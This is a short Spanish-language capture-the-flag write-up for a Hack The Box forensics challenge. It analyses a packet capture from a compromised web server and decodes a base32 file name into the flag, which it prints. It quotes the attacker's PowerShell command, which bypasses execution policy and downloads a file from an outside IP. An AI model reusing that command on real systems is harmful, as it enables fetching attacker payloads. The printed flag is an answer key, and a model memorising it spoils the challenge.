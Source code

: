 # Chase
*One of our web servers triggered an AV alert, but none of the sysadmins say they were logged onto it. We've taken a network capture before shutting the server down to take a clone of the disk. Can you take a look at the PCAP and see if anything is up?*

Nos dan un pcap donde podemos ver trafico HTTP y DNS principalmente

Investigamos el trafico HTTP generado y podemos ver que se ha subido una reverse shell y se ha descargado un archivo en remoto usando el siguiente comando de powershell
```
powershell -ep bypass -c Invoke-WebRequest -Uri http://22.22.22.7/JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt -OutFile c:\users\public\file.txt
```
Vemos la request y la response y nada me llama la atención:
```
GET /JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt HTTP/1.1
Accept: */*
User-Agent: CertUtil URL Agent
Host: 22.22.22.7
Cache-Control: no-cache

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.6
Date: Sun, 01 Nov 2020 17:26:14 GMT
Content-type: text/plain
Content-Length: 11
Last-Modified: Sun, 01 Nov 2020 17:24:19 GMT

Hey there!
```
El nombre del archivo es un pelin raro, lo pasamos por Cyberchef y con base32 decode tenemos la flag
```
HTB{MAn_8lu3_73aM_R0cX}
```
Flag: **HTB{MAn_8lu3_73aM_R0cX}**
